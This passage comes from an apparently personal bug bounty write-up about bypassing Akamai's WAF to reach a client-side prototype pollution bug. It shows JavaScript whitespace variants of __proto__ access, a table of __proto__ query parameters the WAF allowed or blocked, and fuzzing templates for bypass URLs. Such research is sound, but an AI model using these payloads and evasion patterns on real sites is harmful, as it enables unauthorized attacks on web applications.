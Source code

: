 3. *Oh I forgot obvious stuff like whitespace between brackets etc. JS supports all sorts of whitespace*

To explain this here's an example,  javaScript is a whitespace-insensitive programming language, which means that it largely ignores whitespace characters like spaces, tabs, and line breaks:

```js
Object.__proto__.x = 1337
1337
Object.__proto__.x
1337
Object.__proto__. x
1337
Object.__proto__ . x
1337
Object. __proto__ . x
1337
Object.                   __proto__ . x
```

But still this was also blocked by Akamai

Some more solutions which I suggested myself: https://twitter.com/sudhanshur705/status/1657753816241147904

---------------------

**Analyzing the WAF**

https://www.target.com/?__proto__            -> allowed
https://www.target.com/?__proto__[]=x        -> allowed
https://www.target.com/?__proto__[x]=x       -> blocked
https://www.target.com/?__proto__[1]=x       -> blocked


I spent almost a whole day and it seemed impossible to bypass, as there are only very limited variations I could do in case prototype pollution. In case of xss you have a no of tags,etc to try but here the options are limited.

So I started fuzzing query params adding some url encoded stuff which might break the WAF


Jub0bs recently posted a writeuop about a beautiful chain of bugs
https://jub0bs.com/posts/2023-05-05-smorgasbord-of-a-bug-chain/

Where he was able to bypass Akamai, by removing the `?` from the url and using `&` instead.


![image](https://github.com/Sudistark/BB-Writeups/assets/31372554/a34b0177-e763-4368-9b7c-85c3f6045959)



I tried the same thing but it didn't worked, so I though there might be more similar ways to bypass Akamai waf. SO I fuzzed different portions of the url

Like this:

```
https://www.target.com/?__proto__[FUZZx]=x
https://www.target.com/?__proto__[x]FUZZ=x
https://www.target.com/?__proto__[FUZZx]=x
https://www.target.com/?FUZZ__proto__[x]=x
https://www.target.com/FUZZ?__proto__[x]=x
```
